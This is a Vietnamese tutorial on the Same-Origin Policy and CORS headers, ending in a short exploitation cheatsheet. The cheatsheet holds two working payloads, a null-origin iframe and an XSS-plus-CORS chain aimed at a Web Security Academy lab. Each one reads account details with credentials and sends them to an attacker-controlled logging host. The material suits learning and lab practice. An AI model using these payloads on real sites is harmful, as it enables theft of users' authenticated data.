

# Khái niệm về SOP VÀ CORS
## Same-Origin Policy (SOP)
SOP là một cơ chế của trình duyệt web với mục tiêu nhằm ngăn chặn khỏi cuộc tấn công lẫn nhau. Cụ thể, nó sẽ hạn chế các `script` thuộc `origin` truy cập vào dữ liệu thuộc `origin` khác.

Một `origin` bao gồm 3 thành phần:
- URI schema : `http` hoặc `https`
- Domain
- Port

Ví dụ:


Same-Origin Policy kiểm soát quyền truy cập của mã JavaScript đối với những nội dung được tải từ domain khác .Việc tải các tài nguyên của trang từ origin khác nhìn chung vẫn được cho phép. Ví dụ, SOP cho phép:
```html
Nhúng hình ảnh thông qua thẻ .
Nhúng nội dung media thông qua thẻ <video>.
Tải JavaScript thông qua thẻ <script>.
```
Tuy nhiên, mặc dù trang web có thể tải các tài nguyên bên ngoài này, JavaScript chạy trên trang không thể đọc nội dung của các tài nguyên đó.

## Cross-Origin Resource Sharing(CORS)
CORS được viết tắt là Cross-origin resource sharing. CORS ra đời vì SOP nếu áp dụng cứng nhắc thì quá hạn chế đối với các ứng dụng web hiện đại. CORS sẽ cho phép chia sẽ dữ liệu giữa các origin một cách có kiểm soát.

CORS sẽ sử dụng các HTTP header giữa trình duyệt và máy chủ để kiểm soát truy cập tài nguyên giữa các tên miền khác nhau. Dưới đây là bảng thông tin về các HTTP header

| Header                             | Hướng            | Ý nghĩa                              |
| ---------------------------------- | ---------------- | ------------------------------------ |
| `Origin`                           | Browser → Server | Tôi đến từ origin nào                |
| `Access-Control-Request-Method`    | Browser → Server | Tôi muốn dùng method nào             |
| `Access-Control-Request-Headers`   | Browser → Server | Tôi muốn gửi header nào              |
| `Access-Control-Allow-Origin`      | Server → Browser | Origin nào được phép                 |
| `Access-Control-Allow-Methods`     | Server → Browser | Method nào được phép                 |
| `Access-Control-Allow-Headers`     | Server → Browser | Header nào được phép                 |
| `Access-Control-Allow-Credentials` | Server → Browser | Có cho phép credentials không        |
| `Access-Control-Expose-Headers`    | Server → Browser | JS được đọc thêm response header nào |
| `Access-Control-Max-Age`           | Server → Browser | Cache preflight trong bao lâu        |

Khi thực hiện khai thác lỗ hổng liên quan CORS chúng ta sẽ tập trung vào `Origin`, `Access-Control-Allow-Origin` và `Access-Control-Allow-Credentials`.

Ví dụ, giả sử một website có origin là `https://lighth0use.com`

Tạo ra cross-domain request sau:
```
GET /data HTTP/1.1
Host: lighth0use.com
Origin: https://attacker.com
```

Ở đây, browser đang nói với lighth0use.com rằng:

“Request này được tạo ra từ origin https://attacker.com.”

Server tại lighth0use.com trả về response:
```
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://attacker.com
```

Trình duyệt sẽ cho phép code đang chạy trên attacker.com truy cập vào đọc response, bởi vì origin của website gửi request khớp với origin mà server cho phép.


# Cheatsheet

1. NULL Origin 
```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>

var req= new XMLHttpRequest();
req.onload= reqlistener;
req.open('get','https://target.com/accountDetails', true);
req.withCredentials = true;
req.send();
function reqlistener(){
     location='https://server-attacker.com/log?key=' + this.responseText;
}

</script>"></iframe>
```
2. XSS+CORS
```js
<script>
    document.location="http://stock.0a4c00c404d7a1a580540d0900af0035.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a4c00c404d7a1a580540d0900af0035.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0aa100740485a19480480ce201db00a5.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
# Reference